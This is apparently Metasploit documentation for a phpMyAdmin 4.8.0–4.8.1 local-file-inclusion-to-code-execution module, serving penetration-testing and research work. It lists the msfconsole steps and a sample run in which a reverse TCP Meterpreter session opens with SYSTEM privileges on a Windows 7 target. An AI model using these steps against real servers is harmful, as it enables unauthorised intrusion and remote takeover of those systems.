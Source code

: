 ## Description

phpMyAdmin v4.8.0 and v4.8.1 are vulnerable to local file inclusion, which can be exploited post-authentication to execute PHP code by application. The module has been tested with phpMyAdmin v4.8.1.

## Vulnerable Application

[phpMyAdmin v4.8.1](https://files.phpmyadmin.net/phpMyAdmin/4.8.1/phpMyAdmin-4.8.1-all-languages.zip) and v4.8.0

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/phpmyadmin_lfi_rce`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested on Windows 7 x64 using PHP 7.2.4 and phpMyAdmin 4.8.1

```
msf5 > use exploit/multi/http/phpmyadmin_lfi_rce
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set rhosts 172.22.222.122
rhosts => 172.22.222.122
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > run

[*] Started reverse TCP handler on 172.22.222.190:4444
[*] Sending stage (37775 bytes) to 172.22.222.122
[*] Meterpreter session 1 opened (172.22.222.190:4444 -> 172.22.222.122:51999) at 2018-07-05 13:14:39 -0500

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    :
OS          : Windows NT 6.1 build 7601 (Windows 7 Professional Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >
```
